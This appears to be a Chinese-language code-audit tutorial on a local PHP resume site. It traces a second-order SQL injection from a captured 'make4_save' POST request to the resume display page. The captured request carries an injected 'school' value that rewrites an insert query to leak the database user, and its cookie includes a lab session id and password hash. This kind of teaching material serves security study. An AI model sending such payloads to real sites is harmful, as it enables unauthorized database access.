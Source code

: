 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135695750-afdb0be9-8755-4014-a0b0-9b6a6f552683.png)

```plain
保存触发的URL：http://127.0.0.1:8092/user/personal/personal_resume.php?act=make4_save
抓取分析保存数据包：
POST /user/personal/personal_resume.php?act=make4_save HTTP/1.1
Host: 127.0.0.1:8092
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8092/user/personal/personal_resume.php?act=make4&pid=2
Cookie: UM_distinctid=17e46c24838315-027dd22377488f8-1262694a-144000-17e46c24839418; CNZZDATA3801251=cnzz_eid%3D1994470479-1641863151-%26ntime%3D1645228788; PHPSESSID=f5tif3dik5jv3u6cumfi7s3h45; QS[uid]=1; QS[username]=xiaodi; QS[password]=0e3c4f49d9f3efb5347d2841886f3f9c; QS[utype]=2; QS[pmscount]=1
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 182

start=2027%C4%EA1%D4%C2&endtime=2027%C4%EA1%D4%C2&school=xiaodi%27%2Caddress%3Duser%28%29%23&speciality=vgvjh&education_cn=%D6%D0%D7%A8&education=68&pid=2&disabledsubmit=%B1%A3%B4%E6
从URL进行分析，创建对应的URL为：http://127.0.0.1:8092/user/personal/personal_resume.php?act=make4&pid=2
保存对应的URL为：http://127.0.0.1:8092/user/personal/personal_resume.php?act=make4_save
```

找到act=make4_save关键代码

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135696054-38487064-1ffa-4359-a306-370c49fabd57.png)

发现关键性代码inserttable自定义函数

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135696027-9426af63-e1ac-479c-8e38-48bf4ac5b2be.png)

改函数插入的表为resume_education，进一步在数据库中追踪，可以发现插入在学校的数据写在了resume_education表中。

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135696083-8a430f1c-f7a1-422a-8954-ffa2f1c349c9.png)

```plain
先插入学校名称，在写了resume_education表里面。
接下来我们分析查看简历页面：http://127.0.0.1:8092/resume/resume-show.php?id=2
对resume-show.php代码进行分析，分析到调佣模块运行的。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135696096-3c0e66cb-db1e-41ec-87f7-8e88589d57cb.png)

```plain
这个比较难理解，我们直接跟SQL语句的执行：
访问这个页面，看SQL语句的执行情况
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135696403-00f8f8a5-d1ff-40f3-a055-ff7d4fe2406d.png)
